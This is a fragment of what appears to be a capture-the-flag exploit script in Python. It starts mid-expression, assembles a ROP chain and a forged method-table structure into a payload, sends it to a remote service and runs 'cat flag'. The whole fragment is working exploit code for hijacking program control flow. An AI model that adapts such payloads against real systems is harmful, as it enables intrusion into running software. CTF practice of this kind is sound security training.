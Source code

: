 ```py

    rop.chain().ljust(base_data - 8, b"\0") +
    data.ljust(base_vtable - base_data, b"\0") +

    p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct
    p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1
    p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2
    p64(method)
)

r.send(payload.ljust(200, b'A'))

r.sendline(b"cat flag")
print(r.readline().decode())
```
